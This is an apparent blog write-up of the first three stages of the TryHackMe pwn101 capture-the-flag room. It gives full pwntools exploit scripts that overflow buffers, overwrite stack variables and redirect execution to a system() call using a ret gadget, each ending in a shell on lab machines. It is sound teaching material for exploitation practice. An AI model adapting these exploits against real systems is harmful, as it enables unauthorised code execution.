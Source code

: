 ```yaml
---
title: THM/pwn101 - writeup, part 1
date: 2023-05-02 17:13:31 +0100
author: farrimwildaxe
categories: [Writeup,THM]
tags: [thm,pwn101,writeup,pwntools,buffer overflow,rop]
img_path: /assets/img/thm/pwn101
published: true
---
```


In this post, we'll be discussing the TryHackMe room known as pwn101. This challenge will test and improve your buffer overflow and ROP chaining skills. By completing this challenge, you will gain valuable experience in identifying vulnerabilities, exploiting them, and ultimately gaining access to a target system. Whether you're a newbie or a skilled hacker, pwn101 is an excellent way to sharpen your skills and gain more knowledge in the field of cybersecurity. Let's explore the specifics of this exciting challenge to discover what it entails.

## pwn101.pwn101

Pwn101 is a series of ten stages that increase in difficulty. However, the first stage, pwn101.pwn101, is relatively easy. As shown in the screenshot below, you only need to provide a long enough string to cause a buffer overflow and modify the integer variable following the buffer:

![pwn101's main() function](pwn101-main.png)

 So, without further ado, here is a pwntools script to accomplish this:

```python
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn101.pwn101")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.100.183", 9001)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'make briyani:')
io.sendline(b"A" * 70)
io.interactive()
```

We are using multiple "A" letters to create our payload. This payload will modify the value of a variable from `0x00000539`  (which is equivalent to `1337` in decimal) to `0x41414141` (represented by the letters "A" in hexadecimal). After running the script, we've got the shell:

![pwn101 shell](pwn101-shell.png)

## pwn102.pwn102

Our goal in the second challenge is to change the values of two variables located after the buffer. These variables are labelled `variable_1` and `variable_2` in the screenshot. We need to set them to `0x00c0ff33` and `0x0000c0d3`to get the shell:

![pwn102's main() function](pwn102-main.png)

To achieve our goal, we must pass a string of sufficient length that overwrites the buffer and variables with "coffee" and "code" values. Remember to consider endianness:

```python
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn102.pwn102")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.100.183", 9002)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'right?')

payload  = b"A" * 104
payload += p32(0x0000c0d3, endian='little')
payload += p32(0x00c0ff33, endian='little')

io.sendline(payload)

io.interactive()
```

Once our payload is ready, we can send it to the server:

![pwn102 shell](pwn102-shell.png)

And again, we've got a shell.

## pwn103.pwn103

The third challenge, pwn103, involves a more complex set of tasks to solve than the previous challenges, but it is still relatively easy. After opening the binary file in Ghidra, you can see that it contains a "switch-case" with multiple functions. It looks like a simple chat application:

![pwn103 main() function](pwn103-main.png)

Let's check what functionality it has. The `announcements()` function prints a few messages and calls `main()`, the same as the `discussion()` and `rules()`. Also, the `bot_cmd()` reads the input and displays a few fake commands.

![pwn103 general() function](pwn103-general.png)

The most interesting for us will be the `general()` function which, despite displaying few messages, also reads the input from the user via `scanf()` without proper checks. But there is one more thing. After examining the symbol tree thoroughly, we have discovered a function named `admins_only()`, which includes a call to the `system()`. By exploiting this and the bug in the `general()` function, remote code execution is possible.

![pwn103 admins_only() function](pwn103-admins_only.png)

Let's write a pwntools script for that:

```jsx
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn103.pwn103")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.57.182", 9003)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'channel:')
io.sendline(b'3')
io.recvuntil(b'pwner]:')

payload  = b"A" * 40
payload += p64(elf.symbols.admins_only)

io.sendline(payload)
io.interactive()
```

We can run the script against the remote machine when it is ready. Let's run it. 

![pwn103 shell](pwn103-shell.png)

The script started but crashed after sending a command to the spawned shell. After looking in GDB, we see that our stack needs to be aligned. So we need to pop one item from the stack. The easiest way is to find a `ret` gadget and use it. We can use the `ROPgadget` tool for that:

![pwn103 ROPgadget tool](pwn103-ropgadget.png)

It found the "ret" instruction at the `0x00401016` address. Let's use it:

```jsx
payload  = b"A" * 40
payload += p64(0x00401016)              # ret, to make stack properly aligned
payload += p64(elf.symbols.admins_only)
```

And here is the result, we've got the shell again.

![pwn103 shell v2](pwn103-shell2.png)

Great job, we've successfully finished this section! Join me in the next part, where we'll tackle the rest of the challenges from this room together.